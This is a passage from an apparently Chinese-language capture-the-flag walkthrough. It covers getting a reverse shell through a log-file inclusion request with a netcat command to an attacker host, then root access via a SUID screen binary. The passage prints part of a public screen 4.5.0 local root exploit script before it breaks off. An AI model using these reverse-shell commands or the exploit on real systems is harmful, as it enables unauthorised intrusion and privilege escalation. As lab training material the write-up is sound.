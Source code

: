 Kali监听8888端口：

```bash
nc -lvnp 8888
```

发送请求：

```
http://192.168.145.138/thankyou.php?file=/var/log/nginx/error.log&cmd=nc 192.168.145.130 8888 -e /bin/bash
```

Kali接受到反弹Shell：

![image-20210330175015373](image-20210330175015373.png)

## 最终提权

![image-20210330175032250](image-20210330175032250.png)

sudo居然不能用。。。

难道是内核提权吗？查一下：

![image-20210330175451768](image-20210330175451768.png)

![image-20210330175505629](image-20210330175505629.png)

并不是。

那就找一下特殊权限好了：

```bash
find / -perm -u=s -type f 2>/dev/null
```

![image-20210330175718995](image-20210330175718995.png)

screen引起了我的注意，搜索果然出来了，提权：

![image-20210330175801690](image-20210330175801690.png)

把文件复制到当前目录下方便查看：

```bash
cp /usr/share/exploitdb/exploits/linux/local/41154.sh shell.sh
```

文件内容：

```shell
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
```